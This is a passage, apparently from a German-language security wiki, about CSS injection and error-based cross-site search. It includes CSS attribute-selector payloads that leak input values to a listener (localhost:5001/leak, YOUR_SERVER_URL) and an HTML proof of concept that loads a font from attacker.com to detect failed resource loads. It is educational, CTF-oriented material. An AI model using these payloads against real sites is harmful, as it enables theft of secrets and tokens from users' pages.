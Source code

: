 Sie können den ursprünglichen [**Code von Pepe Vila, um dies auszunutzen, hier finden**](https://gist.github.com/cgvwzq/6260f0f0a47c009c87b4d46ce3808231) oder Sie können fast den [**gleichen Code, aber kommentiert, hier finden**.](./#css-injection)

{% hint style="info" %}
Das Skript wird versuchen, jedes Mal 2 Zeichen zu entdecken (vom Anfang und vom Ende), da der Attributselektor es ermöglicht, Dinge zu tun wie:
```css
/* value^=  to match the beggining of the value*/
input[value^="0"]{--s0:url(http://localhost:5001/leak?pre=0)}

/* value$=  to match the ending of the value*/
input[value$="f"]{--e0:url(http://localhost:5001/leak?post=f)}
```
Dies ermöglicht es dem Skript, das Geheimnis schneller zu leaken.  
{% endhint %}

{% hint style="warning" %}
Manchmal **erkennt das Skript nicht korrekt, dass das entdeckte Präfix + Suffix bereits die vollständige Flagge ist** und es wird weiterhin vorwärts (im Präfix) und rückwärts (im Suffix) fortfahren und irgendwann wird es hängen bleiben.\
Keine Sorge, überprüfe einfach die **Ausgabe**, denn **du kannst die Flagge dort sehen**.
{% endhint %}

### Andere Selektoren

Andere Möglichkeiten, um auf DOM-Teile mit **CSS-Selektoren** zuzugreifen:

* **`.class-to-search:nth-child(2)`**: Dies wird das zweite Element mit der Klasse "class-to-search" im DOM suchen.
*   **`:empty`** Selektor: Wird zum Beispiel in [**diesem Writeup**](https://github.com/b14d35/CTF-Writeups/tree/master/bi0sCTF%202022/Emo-Locker)** verwendet:**

```css
[role^="img"][aria-label="1"]:empty { background-image: url("YOUR_SERVER_URL?1"); }
```

### Fehlerbasierte XS-Search

**Referenz:** [CSS-basierter Angriff: Missbrauch von unicode-range von @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Error-Based XS-Search PoC von @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

Die allgemeine Absicht ist es, **eine benutzerdefinierte Schriftart von einem kontrollierten Endpunkt zu verwenden** und sicherzustellen, dass **Text (in diesem Fall 'A') nur mit dieser Schriftart angezeigt wird, wenn die angegebene Ressource (`favicon.ico`) nicht geladen werden kann**.
```html
<!DOCTYPE html>
<html>
<head>
<style>
@font-face{
font-family: poc;
src: url(http://attacker.com/?leak);
unicode-range:U+0041;
}

#poc0{
font-family: 'poc';
}

</style>
</head>
<body>

<object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
</body>
```